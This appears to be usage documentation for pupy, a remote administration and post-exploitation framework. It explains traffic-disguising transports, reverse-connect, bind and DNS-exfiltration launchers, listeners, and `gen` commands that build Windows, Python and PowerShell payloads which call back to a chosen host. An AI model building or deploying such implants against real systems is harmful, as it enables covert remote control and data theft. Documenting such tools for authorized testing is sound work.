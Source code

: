 
## Run the server
Once you have [correctly](https://github.com/n1nj4sec/pupy/wiki/Installation) installed pupy, you are ready to launch the server.
```code
pupysh
```

To generate working payloads, you should have a complete comprehension of how things work. `transports`, `launchers`, `listeners` and `payloads` terms have to be understood before starting.  

## Transport

All transports in pupy are stackable. This mean that by creating a custom
transport conf (pupy/network/transport/<transport_name>/conf.py), you can make
you pupy session looks like anything. For example you could stack HTTP over
HTTP over base64 over HTTP over AES over obfs3 :o)

- ```ssl``` (the default one): TCP transport wrapped with SSL.
- ```rsa```: Authentication & encryption using RSA and AES256, often stacked with other layers.
- ```ssl_rsa```: Same as ssl but stacked with a rsa layer.
- ```websocket```: Take a look of this [article](https://bitrot.sh/post/28-11-2017-pupy-websocket-transport/).
- ```aes```: Use of a static AES256 key.
- ```http```: Making the traffic looking like basic HTTP + stacked with a rsa layer.
- ```obfs3```: [A protocol to keep a third party from telling what protocol is in use based on message contents](https://gitweb.torproject.org/pluggable-transports/obfsproxy.git/tree/doc/obfs3/obfs3-protocol-spec.txt). Obfs3 is stacked with a rsa layer for a better security
- ```scramblesuit```: [A Polymorphic Network Protocol to Circumvent Censorship](http://www.cs.kau.se/philwint/scramblesuit/). Scramblesuit is stacked with a rsa layer for a better security.
- ```udp```: Rsa layer but over UDP (could be buggy, it doesn't handle packet loss yet).
- other: Layers without really interest and are given for code examples : (dummy, base64, XOR, ...).

## Launchers

Launchers allow pupy to run custom actions before starting the reverse connection
- ```connect```: Connect back to our server.
- ```bind```: Bind payload instead of reverse
- ```auto_proxy```: Retrieve a list of possible SOCKS/HTTP proxies and try each one of them. Proxy retrieval methods are: registry, WPAD requests, gnome settings, HTTP_PROXY env variable
- ```dnscnc```: DNS exfiltration

## Listeners

By default, it tries to listen on port 443 using the ssl transport. This configuration can be changed on the `pupy.conf` file.
To add listeners on `pupysh`, use `listen` as following: 
```
>> listen -a <transport> <port>
```

   - Exemple: 
```
>> listen -a ssl 8443
[+] Listen: ssl: 8443
```

## Payloads format

Payloads format represent the way to build our payload. Some are implemented and you should use one depending on the context and system you are targeting: 

- ```client```: executable to run on the target (.exe, .dll, .lin, .so).
- ```py```: python file.
- ```pyinst```: python file ready to be used with [pyinstaller](https://github.com/pyinstaller/pyinstaller).
- ```py_oneliner```: python oneliner (start a listening server on background)
- ```ps1```: powershell file. 
- ```ps1_oneliner```: powershell oneliner (start a listening server on background).
- ```rubber_ducky```: useful with rubber ducky.

## Payloads Generation

**Oneliners**: For one shot usage use `gen` command inside `pupysh`. Once you get the session back, kill the server using `CTRL-C`. If you want to let the server running non stop, use `pupygen.py` using exactly the same syntax as explained below.  

Payloads generation are done using the `gen` command. 
```
>> gen -f <format> <launcher> -t <transport>
```
Here are some examples: 

- Windows dll
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```

- Windows executable
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

- Python file - Bind
```
>> gen -f py bind --port port -t transport
```

- Python oneliner
```
>> gen -f py_oneliner connect --host ip:port -t transport
```
